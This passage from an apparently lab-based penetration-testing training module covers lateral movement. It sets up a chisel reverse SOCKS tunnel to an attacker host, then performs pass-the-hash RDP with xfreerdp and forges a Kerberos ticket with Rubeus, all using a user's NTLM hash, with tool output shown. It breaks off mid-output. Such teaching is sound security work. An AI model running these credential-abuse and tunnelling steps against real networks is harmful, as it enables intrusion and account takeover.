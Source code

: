 <p>Then, in <code>SRV01</code>, we will connect to the server with the following command <code>chisel.exe client &lt;VPN IP&gt; R:socks</code>:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\chisel.exe client 10.10.14.207:8080 R:socks
2024/03/28 06:10:48 client: Connecting to ws://10.10.14.207:8080
2024/03/28 06:10:49 client: Connected (Latency 137.6381ms)
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Those steps are always required when we see the use of <code>proxychains</code> during the module. Alternatively, we can also use tools such as <a href="https://github.com/nicocha30/ligolo-ng">Ligolo-ng</a>, which is recommended if using PwnBox. </p>
</div>
</div>
<h2>Pass the Hash and Pass the Ticket for RDP</h2>
<p>Once we confirm <code>Restricted Admin Mode</code> is enabled, or if we can enable it, we can proceed to perform <code>Pass the Hash</code> or <code>Pass the Ticket</code> attacks with RDP.</p>
<p>To perform <code>Pass the Hash</code> from a Linux machine, we can use <code>xfreerdp</code> with the <code>/pth</code> option to use a hash and connect to RDP. Here's an example command:</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains4 -q xfreerdp /u:helen /pth:62EBA30320E250ECA185AA1327E78AEB /d:inlanefreight.local /v:172.20.0.52
[13:11:55:443] [84886:84887] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[13:11:55:444] [84886:84887] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
</code></pre>
<p>For <code>Pass the Ticket</code> we can use <a href="https://github.com/GhostPack/Rubeus">Rubeus</a>. We will forge a ticket using <code>Helen</code>'s hash. First we need to launch a sacrificial process with the option <code>createnetonly</code>:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\Rubeus.exe createnetonly /program:powershell.exe /show
</code></pre>
<p>In the new PowerShell window we will use Helen's hash to forge a Ticket-Granting ticket (TGT):</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; .\Rubeus.exe asktgt /user:helen /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:inlanefreight.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 62EBA30320E250ECA185AA1327E78AEB
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\helen'
[*] Using domain controller: fe80::711d:1399:b85a:50c5%9:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
